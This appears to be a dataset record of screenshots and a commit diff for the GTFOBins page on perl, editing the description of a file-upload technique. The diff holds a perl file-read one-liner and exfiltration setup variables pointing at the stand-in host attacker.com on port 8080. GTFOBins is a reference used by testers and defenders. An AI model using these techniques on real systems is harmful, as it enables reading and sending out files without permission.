

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/perl.md, in a window 1280 px wide and 900 px high, scrolled down 415 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update perl.md

```diff
--- a/_gtfobins/perl.md
+++ b/_gtfobins/perl.md
@@ -7,7 +7,7 @@ functions:
         LFILE=file_to_read
         perl -ne print $LFILE
   file-upload:
-    - description: Send local file via "d" parameter of a HTTP POST request.
+    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
         export RHOST=attacker.com
         export RPORT=8080
```
